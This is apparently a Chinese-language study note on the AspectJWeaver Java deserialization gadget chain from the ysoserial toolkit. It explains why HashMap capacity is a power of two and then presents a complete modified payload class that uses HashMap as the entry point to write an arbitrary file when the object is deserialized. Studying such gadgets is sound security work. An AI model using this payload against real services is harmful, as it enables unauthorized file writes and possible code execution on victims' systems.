    


## 独立思考

### 1、为什么HashMap的capacity必须是2的n次方？

因为位运算运算速度快，每个Object通过HashMap.hash(key)得到的hash(key)需要映射到HashMap底层的Entry\<K, V\>\[\]中，如果采用hash(key)%length的方式时间效率远低于位运算，因此HashMap底层的capacity选用了2的n次方的策略。

```java
static int indexFor(int h, int length) {
    return h & (length-1);
}
```

### 2、为什么本例需要使用HashSet作为入口，使用HashMap作为第一步入口可不可以？

本例用HashMap也是可以的，修改后的代码如下，效果已经过验证

```java
public class MyAspectJWeaver implements ObjectPayload<Serializable> {

    public Serializable getObject(final String command) throws Exception {
        int sep = command.lastIndexOf(';');
        if ( sep < 0 ) {
            throw new IllegalArgumentException("Command format is: <filename>:<base64 Object>");
        }
        String[] parts = command.split(";");
        String filename = parts[0];
        byte[] content = Base64.decodeBase64(parts[1]);

        Constructor ctor = Reflections.getFirstCtor(
            "org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Object simpleCache = ctor.newInstance(".", 12);
        Transformer ct = new ConstantTransformer(content);
        Map lazyMap = LazyMap.decorate((Map)simpleCache, ct);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, filename);

        HashMap map = new HashMap(1);
        map.put("foo", new Object());
        
        // 获取Node[]
        Field mf = HashMap.class.getDeclaredField("table");
        Reflections.setAccessible(mf);
        Object[] array = (Object[]) mf.get(map);
        // 获取非空Node
        Object node = array[0];
        node = (node == null) ? array[1]:node;
        // 获取Node的key
        Field mkf = node.getClass().getDeclaredField("key");
        Reflections.setAccessible(mkf);
        // 将TiedMapEntry写入该node的key字段
        mkf.set(node, entry);
        return map;

    }

    public static void main(String[] args) throws Exception {
        args = new String[]{"ahi.txt;YWhpaGloaQ=="};
        PayloadRunner.run(AspectJWeaver.class, args);
    }
}
```
